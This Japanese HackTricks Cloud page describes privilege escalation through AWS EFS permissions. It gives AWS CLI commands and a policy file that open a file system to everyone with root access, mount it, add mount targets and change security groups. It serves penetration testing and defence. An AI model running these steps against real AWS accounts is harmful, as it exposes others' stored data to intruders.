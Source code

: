 # AWS - EFS 特権昇格

{% hint style="success" %}
AWSハッキングの学習と練習:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングの学習と練習: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksのサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* **HackTricks**と**HackTricks Cloud**のgithubリポジトリにPRを提出して、ハッキングトリックを共有してください。

</details>
{% endhint %}

## EFS

**EFSに関する詳細情報**は以下を参照してください:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

EFSをマウントするには、EFSが公開されているサブネットワークにいる必要があり、アクセス権（セキュリティグループ）を持っている必要があります。これが起こっている場合、デフォルトで常にマウントできますが、IAMポリシーによって保護されている場合は、ここで言及されている追加の権限が必要です。

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

これらの権限のいずれかを持っている攻撃者は、**ファイルシステムポリシーを変更**して**アクセス権を与える**か、**削除**して**デフォルトアクセス**を許可することができます。

ポリシーを削除するには:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
変更するには:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

この権限を持っていると、攻撃者は**EFSをマウント**できます。EFSをマウントできるすべてのユーザーに書き込み権限がデフォルトで与えられていない場合、彼は**読み取りアクセスのみ**を持つことになります。
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
**潜在的影響:** ファイルシステム内の機密情報を特定することによる間接的な権限昇格。

### `elasticfilesystem:CreateMountTarget`

攻撃者がEFSのマウントターゲットが存在しない**サブネット**内にいる場合、この権限を使用して**自分のサブネットに1つ作成**することができます。
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**潜在的影響:** ファイルシステム内の機密情報を特定することによる間接的な昇格。

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

攻撃者がEFSにマウントターゲットがあることを発見したが、**トラフィックを許可するセキュリティグループがない**サブネット内にある場合、単に**選択したセキュリティグループを変更する**ことができます。
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**潜在的影響:** ファイルシステム内の機密情報の特定による間接的な昇格。
